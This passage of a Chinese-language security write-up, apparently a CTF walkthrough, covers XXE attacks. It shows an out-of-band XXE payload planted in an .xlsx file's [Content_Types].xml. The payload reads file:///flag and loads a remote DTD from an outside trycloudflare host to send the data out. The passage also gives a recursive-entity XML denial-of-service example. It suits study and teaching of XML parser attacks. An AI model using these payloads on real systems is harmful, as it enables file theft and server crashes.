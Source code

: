 
打开[Content_Types].xml，添加dtd部分    
```xml
<!DOCTYPE ws [
<!ENTITY % file SYSTEM "file:///flag">
<!ENTITY % remote SYSTEM "https://vs-gate-shareware-fighters.trycloudflare.com/kk.txt">
%remote;%int;%send;
]>
```  

---

压缩，将压缩包后缀改为xlsx，选择该文件并上传，上传后返回保存的文件名，复制文件名，返回解析  
![alt text](image-19.png)  

---

查看本地test.txt文件  
![alt text](image-20.png)  

---  

## xxe dos  
攻击者可以构造一个XML文档，其中包含大量递归实体或者引用非常大的外部文件，导致XML解析器在处理时消耗大量内存或CPU资源，从而拖慢甚至崩溃服务器。  
一个实体递归的例子  
```xml
<!DOCTYPE root [
  <!ENTITY a "lol">
  <!ENTITY b "&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;">
  <!ENTITY c "&b;&b;&b;&b;&b;&b;&b;&b;&b;&b;">
]>
<root>&c;</root>  
```  

---  